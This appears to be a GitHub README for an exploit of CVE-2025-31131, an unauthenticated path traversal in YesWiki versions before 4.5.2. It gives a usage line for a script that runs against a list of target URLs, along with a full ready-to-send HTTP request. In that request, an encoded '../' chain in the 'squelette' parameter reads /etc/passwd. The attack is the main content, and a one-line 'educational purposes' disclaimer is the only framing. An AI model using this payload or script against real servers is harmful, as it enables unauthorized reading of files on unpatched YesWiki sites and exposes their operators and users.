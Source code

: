 

---

# CVE-2025-31131 - YesWiki < 4.5.2 Path Traversal Exploit

This is an unauthenticated path traversal exploit targeting YesWiki versions prior to 4.5.2. The vulnerability exists in the `squelette` parameter, which allows reading arbitrary files from the server.

## Vulnerability Details

- CVE-ID: CVE-2025-31131
- Affected Software: YesWiki < 4.5.2
- Type: Path Traversal
- Severity: High (CVSS: 8.6)
- Reference: https://github.com/advisories/GHSA-w34w-fvp3-68xm

## Usage

`python3 exploit.py -l urls.txt`
![image](https://github.com/user-attachments/assets/1aa33b6c-585c-4244-b2c5-635bffc3af0f)

Here is a second method to exploit manually using Burp:

```
GET /?UrkCEO/edit&theme=margot&squelette=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd&style=margot.css HTTP/1.1
Host: target.com
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```
![image](https://github.com/user-attachments/assets/bcdd29b6-94ac-4578-8763-ba304df0da61)

**Disclaimer**: This is strictly for educational purposes only.

---
